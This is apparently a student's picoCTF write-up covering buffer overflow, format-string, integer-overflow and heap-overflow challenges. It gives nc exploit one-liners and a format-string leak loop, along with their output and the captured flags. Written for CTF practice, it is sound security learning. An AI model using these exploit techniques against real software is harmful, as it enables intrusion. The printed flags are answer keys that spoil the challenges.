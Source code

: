 # buffer overflow 0
Challenge provides a source code from which it's immediately obvious that upon a `SIGSEGV` signal the flag is given out
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
...
```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
Therefore, let's try to enter a REALLY big input in an attempt to stack smash.
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62854 <<< $(printf "Get smashed lol %.0s" {1..69})
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
(base) achu@air ~ % 
```
And we get our flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`.

# format string 0
Same as `buffer overflow 0`, the `SIGSEGV` signal yields a flag and we'll provide a massive input to smash the stack.
```bash
(base) achu@air ~ % nc mimas.picoctf.net 56388  <<< $(printf "x%.0s" {1..6969})
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
The flag is `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`

# flag leak
In the source code, the unsafe function `scanf` is used
```c
scanf("%127s", story);
```
We can potentially exploit it and make it print values off the stack
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62426
Tell me a story and then I'll tell you one >> %x  
Here's a story - 
ffebb4e0
(base) achu@air ~ % 
```
Automating this to run until we find a hit for string containing `CTF`
```bash
(base) achu@air ~ % i=0; while true; do output="$(echo "%${i}\$s" | nc saturn.picoctf.net 62426 2>/dev/null)"; if echo "$output" | grep -E CTF >/dev/null; then echo "Found at i=$i:"; echo "$output"; break; fi; i=$((i+1)); done

Found at i=24:
Tell me a story and then I'll tell you one >> Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
(base) achu@air ~ % 
```
Reformat and our correct flag is `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

# two-sum (extra)
Given the source code, we observe our point of interest which is the `addIntOvf` function.
Because our flag is printed when that function returns `-1`
```c
if (addIntOvf(sum, num1, num2) == 0) {
    printf("No overflow\n");
    fflush(stdout);
    exit(0);
} else if (addIntOvf(sum, num1, num2) == -1) {
    printf("You have an integer overflow\n");
    fflush(stdout);
}
```
Let's take a look at the definition of `addIntOvf`
```c
static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}
```
We need `a` and `b` to be of same sign and non-zero while result is the opposite sign of whatever `a` and `b` is for this function to return `-1` (this is not mathematically possible).
However we can cause an integer overflow with the addition `a + b`, causing a complement wrapping making `result` negative.
Proof of concept:
```c
#include <stdio.h>

int main(void) {
    int result = (1 << 31);
    printf("result = %d\n", result); // result = -2147483648
    return 0;
}
```
We'll provide `num1` as `2147483647` and `num2` as `1` to cause an overflow and consequentially produce a `result` that is negative.
```bash
(base) achu@air cryptonite_taskphase_2_achyuth % nc saturn.picoctf.net 52457 
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
2147483647 1
You entered 2147483647 and 1
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_f6ed8057}
```
Our flag is `picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_f6ed8057}`

# heap 1 (extra)
Given the source code, we can observe that we need `safe_var` to be equal `"pico"` for us to get the flag
```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```
We can do so by overflowing and writing onto to the adjacent value on the heap,
```bash
(base) achu@air cryptonite_taskphase_2_achyuth % nc tethys.picoctf.net 61259                                            

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x577af24af2b0  ->   pico
+-------------+----------------+
[*]   0x577af24af2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: ^C
(base) achu@air cryptonite_taskphase_2_achyuth % python3 
Python 3.13.1 (main, Dec 23 2024, 20:40:06) [Clang 16.0.0 (clang-1600.0.26.4)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x577af24af2d0 - 0x577af24af2b0
32
>>> _ * "X"
'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
>>> exit
(base) achu@air cryptonite_taskphase_2_achyuth % nc tethys.picoctf.net 61259

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x559b41fae2b0  ->   pico
+-------------+----------------+
[*]   0x559b41fae2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXpico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_79ee3270}
(base) achu@air cryptonite_taskphase_2_achyuth % 
```
We get the difference between the stack memory location to be `32`, we overflow by just the right amount such that `pico` gets placed in the next memory cell.
Then we print it out and get the flag.
Our flag is `picoCTF{starting_to_get_the_hang_79ee3270}`
